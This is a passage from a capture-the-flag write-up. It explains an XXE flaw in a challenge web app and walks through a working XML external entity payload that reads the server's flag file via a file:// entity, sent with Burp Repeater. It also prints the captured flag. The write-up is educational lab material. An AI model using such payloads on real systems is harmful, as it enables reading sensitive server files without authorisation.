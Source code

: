 ```python
    return render_template('index.html')
```

The code is vulnerable to XXE (XML External Entity) attacks, as XMLParser is set to resolve entities. This allows attackers to send malicious XML payloads with the `!ENTITY` directive to read files from the server. XXE can be used to access sensitive data, execute remote requests, or perform denial-of-service attacks.

I found a common payload and modified it to read the flag file.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<root>
  <feedback>&xxe;</feedback>
</root>
```

We can't send the payload directly through the UI as it wraps the input we give in `${feedback}` so we have to use burp suite or similar tools which can send request directly to the server.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
    <feedback>${feedback}</feedback>
</root>
```

I used burp repeater to send the payload.

![xxe](/assets/posts/DownUnder/xxe.png)

and there we have the flag!


> FLAG : `DUCTF{emU_say$_he!!0_h0!@_ci@0}`

---

## Conclusion

Thank you for reading my first CTF write-up! I hope you found it informative and enjoyable. Your feedback is greatly appreciated, as it will help me improve future write-ups. Happy hacking!
